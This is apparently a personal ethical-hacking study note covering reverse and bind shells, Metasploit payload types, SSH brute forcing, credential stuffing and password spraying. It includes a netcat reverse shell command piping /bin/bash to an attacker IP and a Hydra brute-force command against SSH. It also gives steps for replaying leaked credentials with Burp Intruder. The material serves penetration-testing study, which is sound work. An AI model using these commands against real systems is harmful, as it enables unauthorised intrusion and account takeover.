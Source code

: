 ```yaml
---
tags:
- EH
MOC: Knowledge Base
---
```

[[_0000 Home|Home]] | [[_0001 Knowledge Base MOC|Back to Knowledge MOC]] | [[EH Ethical Hacking index|Back to index]]
## Reverse Shell vs Bind shell
### Netcat Reverse Shell
- Most common
	- You use it 95% of the time
- A shell gives you access to a machine
	- Attackbox listens - target connects
- A reverse shell is a shell that allows a victim to connect to you
	- You can have netcat active on the attackbox listening on a port, and the target connects to your IP on the same port via netcat
- Port forward or port trigger is needed to connect the target's public IP to the attackbox's private IP
- Example connection
	- Attacker: `nc -nvlp 4444`
	- Target: `nc 192.168.57.6 4444 -e /bin/bash`
- ![Netcat Reverse Shell](assets/Screenshot%20from%202025-09-03%2013-56-41.png)
### Netcat Bind Shell
- Less common
	- Mostly on external assessments
- Most useful when you need to bypass a firewall or when reverse shell isn't working
- The attackbox connects to the target
	- Attackbox connects - target listens
- We open a port on the target via an exploit, then connect to it via netcat
- No need for port forwarding since we connect the attackbox's public IP to the target's private IP
- ![Netcat Bind Shell](assets/Screenshot%20from%202025-09-03%2013-44-18.png)

## Staged vs Non-Staged Payloads
- A payload is what you run as an exploit
- There are different types of payloads
	- Windows payloads
	- Linux payloads
	- Meterpreter payload
		- An attack payload used in [[EH Hacking Tools#Metasploit |Metasploit]]
		- There are at least 500 payloads in [[EH Hacking Tools#Metasploit |Metasploit]] alone
- The main difference between a non-staged and a staged payload's syntax is the forward slash `/`
	- Non-staged
		- `windows/meterpreter_reverse_tcp`
	- Staged
		-  `windows/meterpreter/reverse_tcp`
### Staged payloads
- Sends exploit shell payload in stages
- Can be less stable than non-staged
### Non-Staged payloads
- Sends exploit shell code all at once
- Large in size than staged
- Doesn't always work
- ![Staged vs Non-staged](assets/Screenshot%20from%202025-09-04%2011-40-25.png)

## Brute Force
###  SSH
- **Refer To**:
	- [[NET Common ports and protocols#2. SSH - Secure Shell]]
- You can brute force attack it in a few ways
	- Using hydra
		- Syntax: `hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.57.4:22 -t 4 -V`
			- -P is a password list
			- -t is the number of consecutive attempts or threads
			- -V is verbose
	- Using metasploit
		- Search for an auxiliary ssh login scanner
		- Use the found scanner
		- Check and set the options
		- The required options will be very similar to hydra
- You can use weak or default credentials to test password strength
- The assessment includes if the blue team can catch you
# Credential Stuffing and Password Spraying
### Credentials stuffing
- It's the act of injecting breached account credentials in hopes of an account takeover
- These credentials can be acquired from [[EH Reconnaissance#^ce5358|leaks]]
- Example attack using [[EH Hacking Tools#Butp suite|burp suite]] [[EH Hacking Tools#^cbb090|pitchfork]] attack
	- You're logging into a website for which you have leaked credentials
	- You select from intruder's positions tab the email value, and password value
	- You select pitchfork, and provide it via the payloads tab with a list of usernames for param 1 (the email value param) and a list of passwords for param 2 (the password value param)
	- Pitchfork will try each username of password of equal index together to attempt logging in with them
	- As the attack is running it will show you each attempt and its result
	- You can filter by unsuccessful attempts by checking the response of any of the attempts, and if it failed, copy the failure message then go to the options tab and add it in the grep feature
### Password spraying
- Disclaimer: you must always ask about the number of possible attempts before the account is locked
	- Trying this technique blindly with a bunch of employee usernames can cause mass account locking and DoS for the client company
- Example attack using [[EH Hacking Tools#Butp suite|burp suite]] [[EH Hacking Tools#^837b27|sniper]] attack
	- The start is the same as the pitchfork attack, but you select only the email value as your param
	- This attack will try every email in the list once with a common password
# BufferOverflow
- This topic is being discussed separately over here [[EH Buffer Overflow Steps]]
# Notes
- If a payload fails, try the other type
	- You send a non-staged payload and it fails, try a staged payload
	- Your failed payload was a reverse shell? Try a bind shell